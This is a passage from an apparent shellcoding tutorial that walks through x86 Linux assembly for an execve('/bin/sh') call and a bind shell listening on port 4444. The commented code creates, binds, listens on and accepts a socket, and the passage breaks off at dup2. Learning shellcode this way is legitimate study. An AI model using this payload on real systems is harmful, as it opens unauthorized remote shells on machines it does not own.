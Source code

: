 "Execve" takes three arguments. We pass the arguments with the stack. Note the stack needs to be passed as a reverse order and in big-endian. Our stack will look like this:

{% highlight js %}
Addr0x0//bin/sh/0x00000000
{% endhighlight %}

{% highlight js %}
;execve
xor eax, eax
push eax ;set envp to 0
push 0x68732f2f ; ib//
push 0x6e69622f ; hs/n
mov ebx, esp ;now our stack is //bin/sh0x00000000, and ebx points to the pathname //bin/sh
push eax	;push another 0 on the stack, so now our stack is 0x0//bin/sh0x00000000
mov edx, esp	;edx points to envp, which is the 0x0
push ebx ; push the memory address of //bin/sh on the stack, so now we have addr0x0//bin/sh0x00000000
mov ecx, esp	;ecx points to the address of the //bin/sh, which is the argument argv
mov al, 11
int 0x80
{% endhighlight %}
[Execve Man Page](https://man7.org/linux/man-pages/man2/execve.2.html){:target="_blank"}

Full working code: 
{% highlight js %}
global _start			

section .text

_start:

	;init the registers
	xor eax, eax
	xor ebx, ebx
	xor ecx, ecx
	xor edx, edx
	xor esi, esi
	xor edi, edi

	;create a socket
	mov ax, 359 ;call the socket
	mov bl, 2 ;set domain to 2
	mov cl, 1 ; set type to 1
	int 0x80

	;bind the socket
	xor ebx, ebx ;clear ebx
	mov ebx, eax ;ebx stores sockfd
	mov ax, 361 ;call bind
	push esi ;any ip address
	push word 0x5c11 ;port 4444
	push word 0x2	;sin family
	mov ecx, esp	;let ecx points to the start of the stack
	mov dl, 0x10	;addess length is 16
	int 0x80

	;listen
	mov ax, 363 ;call listen
	xor ecx, ecx ;backlog is 0, sockfd is in ebx
	int 0x80

	;accept
	mov ax, 364; sockfd is in ebx, sockaddr is in ecx, socklen_t is in edx
	int 0x80

	;dup2, essentially it gives us ability to enter command and see output in our shell
	mov ebx, eax ;get the oldfd
